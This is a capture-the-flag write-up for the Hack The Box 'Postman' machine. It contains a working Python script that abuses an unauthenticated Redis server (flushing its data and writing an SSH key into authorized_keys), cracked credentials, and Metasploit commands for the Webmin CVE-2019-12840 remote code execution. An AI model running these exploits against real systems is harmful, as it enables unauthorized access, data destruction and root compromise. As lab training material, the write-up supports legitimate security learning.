



# Postman - Linux - Easy

## Initial access
Nmap scan:
```
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 46:83:4f:f1:38:61:c0:1c:74:cb:b5:d1:4a:68:4d:77 (RSA)
|   256 2d:8d:27:d2:df:15:1a:31:53:05:fb:ff:f0:62:26:89 (ECDSA)
|_  256 ca:7c:82:aa:5a:d3:72:ca:8b:8a:38:3a:80:41:a0:45 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Cyber Geek's Personal Website
6379/tcp  open  redis   Redis key-value store 4.0.9
10000/tcp open  http    MiniServ 1.910 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
|_http-server-header: MiniServ/1.910
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.14
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Port **6379** stood out, because `redis` is not usually world opened. port **10000** is `webmin` instance, but I didn't have credentials at that moment.

I decided to check `redis` for known CVEs, but no luck. So I decided to write SSH key, here is the python PoC:
```
import os
import argparse
import redis
from cryptography.hazmat.primitives import serialization as crypto_serialization
from cryptography.hazmat.primitives.asymmetric import rsa
from cryptography.hazmat.backends import default_backend as crypto_default_backend

def generate_ssh(name: str):
    key = rsa.generate_private_key(backend=crypto_default_backend(), public_exponent=65537, key_size=2048)

    private_key = key.private_bytes(crypto_serialization.Encoding.PEM,
                                    crypto_serialization.PrivateFormat.PKCS8,
                                    crypto_serialization.NoEncryption())
    public_key = b"\n\n" + key.public_key().public_bytes(crypto_serialization.Encoding.OpenSSH,
                                                         crypto_serialization.PublicFormat.OpenSSH
                                                         ) + b"\n\n" # yeah, i know that this is bad, but its just a PoC so who cares?

    with open(name, "wb") as key_file:
        key_file.write(private_key)

    os.chmod(name, 0o600)

    return public_key

def write_ssh(_host: str, _port: int, public_key: bytes):
    r = redis.Redis(host=_host, port=_port, decode_responses=True)

    r.flushall()
    r.set("payload", public_key)
    r.config_set("dir", "/var/lib/redis/.ssh/")
    r.config_set("dbfilename", "authorized_keys")
    r.save()

def main():
    parser = argparse.ArgumentParser(
                    prog='HTB Postman redis exploit',
                    description='This program exploits misconfigured redis instance writing ssh key',
                    epilog='Made by jzrn_ (lol no one cares anyways)')
    parser.add_argument('-f', '--file', help="Name of the file to save private key (id_rsa by default)", default="id_rsa")
    parser.add_argument('-i', '--host', help="instance IP address")
    parser.add_argument('-p', '--port', help="instance PORT (6379 by default)", default="6379")
    args = parser.parse_args()

    public_key = generate_ssh(args.file)
    write_ssh(args.host, int(args.port), public_key)

if __name__ == "__main__":
    main()
```



## Shell as **Matt**

After successfully exploiting misconfigured `redis`, we got shell, but we need to escalate our privileges. Initial enumeration revealed user **Matt**, and ssh key in `/opt`, but it was encrypted with passphrase.
In order to crack it, I got hash from it, and brute-forced it via `johntheripper`



`Matt / computer 2008`

I instantly tried to ssh with it, but it failed. After that I tried `su matt` with `computer2008` and it gave me shell

## Privilege escalation

I started with `linpeas`, but no luck. After that I remembered that there's a **webmin** instance, that possibly runs as **root**, I tried to authentificate with Matt's creds, and it worked!
```
(remote) Matt@Postman:/home/Matt$ dpkg -s webmin
Package: webmin
Status: install ok installed
Priority: optional
Section: admin
Installed-Size: 170328
Maintainer: Jamie Cameron <jcameron@webmin.com>
Architecture: all
Version: 1.910
Replaces: webmin-adsl, webmin-apache, webmin-bandwidth, webmin-bind, webmin-burner, webmin-cfengine, webmin-cluster, webmin-core, webmin-cpan, webmin-dhcpd, webmin-exim, webmin-exports, webmin-fetchmail, webmin-firewall, webmin-freeswan, webmin-frox, webmin-fsdump, webmin-grub, webmin-heartbeat, webmin-htaccess, webmin-inetd, webmin-jabber, webmin-ldap-netgroups, webmin-ldap-user-simple, webmin-ldap-useradmin, webmin-lilo, webmin-logrotate, webmin-lpadmin, webmin-lvm, webmin-mailboxes, webmin-mon, webmin-mysql, webmin-nis, webmin-openslp, webmin-postfix, webmin-postgresql, webmin-ppp, webmin-pptp-client, webmin-pptp-server, webmin-procmail, webmin-proftpd, webmin-pserver, webmin-quota, webmin-samba, webmin-sarg, webmin-sendmail, webmin-shorewall, webmin-slbackup, webmin-smart-status, webmin-snort, webmin-software, webmin-spamassassin, webmin-squid, webmin-sshd, webmin-status, webmin-stunnel, webmin-updown, webmin-usermin, webmin-vgetty, webmin-webalizer, webmin-wuftpd, webmin-wvdial, webmin-xinetd, webmin-filemin, webmin-authentic-theme
Provides: webmin
Depends: perl, libnet-ssleay-perl, openssl, libauthen-pam-perl, libpam-runtime, libio-pty-perl, apt-show-versions, python
Pre-Depends: perl
Conffiles:
 /etc/pam.d/webmin 7d932afdbc1605586ab8c31de78b7dc2
 /etc/init.d/webmin b0a58538e75a6ca981ef52ffd964141a
Description: web-based administration interface for Unix systems
  Using Webmin you can configure DNS, Samba, NFS, local/remote filesystems
  and more using your web browser.  After installation, enter the URL
  https://localhost:10000/ into your browser and login as root with your root
  password.
```

**Webmib 1.910** is vulnerable to **CVE-2019-12840**
I used metasploit to exploit it and obtain shell:

```
use exploit/linux/http/webmin_packageup_rce

set USERNAME Matt
set PASSWORD computer2008
set RHOSTS postman.htb
set SSL true
set LHOST tun0
```


